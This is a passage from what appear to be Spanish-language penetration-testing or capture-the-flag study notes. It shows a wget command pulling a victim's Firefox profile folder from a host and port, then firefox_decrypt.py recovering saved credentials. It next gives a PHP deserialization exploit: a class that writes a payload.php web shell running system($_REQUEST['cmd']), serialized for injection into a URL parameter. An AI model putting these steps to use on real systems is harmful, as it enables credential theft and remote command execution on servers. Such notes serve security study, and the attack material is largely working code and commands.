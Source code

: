 ```shell
wget -r <IP>:<PORT>
```

Para descargarte todo el contenido de esa `IP` y de ese puerto...

Y para utilizar la herramienta anterior una vez que tengamos nuestra carpeta entera de `.mozilla/firefox/` haremos lo siguiente con la herramienta...

```shell
python3 firefox_decrypt.py ../firefox/
```

Esto te pedira una contraseña si estuviera protegida la informacion, pero si no te daria las credenciales directamente encontradas...

### Serializar en `URL` con `PHP` sabiendo el codigo \[Ataque de Serealizacion y Deserealizacion]

Si por ejemplo estamos en una maquina y nos muestran el codigo de algun `backup` de algun `.php` de alguna pagina, podremos ver el codigo de `php` por dentro por lo que estudiaremos como funciona y de ahi crearemos nosotros un `.php` para poder crear cosas dentro de la `URL` con los parametros que veamos o poder aprovechar la informacion para inyectar cosas...

Pero en este caso imaginamos que obtuvimos de una pagina un `.php` con su codigo y sabemos como funciona, vemos que se esta tramitando una peticion por parametro llamado `example=` en el archivo `test.php` y a lo ultimo se esta `serializando` la informacion en la `URL`, por lo que tendremos que crear un `.php` que nos genere el contenido de un parametro `cmd=`, craendo una archivo `.php` en el que podamos ejecutar cualquier comando de forma que nos lo serialice para que se lo trague la `URL` en este caso...

```php
<?php
class DatabaseExample
{
	public $user_file = 'payload.php';
	public $data = '<?php system($_REQUEST["cmd"]); ?>'
}

$exploit = new DatabaseExample;

echo serialize($exploit);

?>
```

Con este `.php` cuando lo ejecutemos...

```shell
php data.php; echo
```

Nos mostrara lo que tendremos que meter de forma serializada en el parametro que sabemos que esta creado llamado `example=` para crear un archivo llamado `payload.php` en la base de datos que sabemos que existe por el `backup` creando en ese archivo el parametro `cmd=` pudiendo ejecutar cualquier comando del sistema y por ultimo nos lo serializa para que funcione todo esto, aprovechando las variables publicas que ya estan creadas...
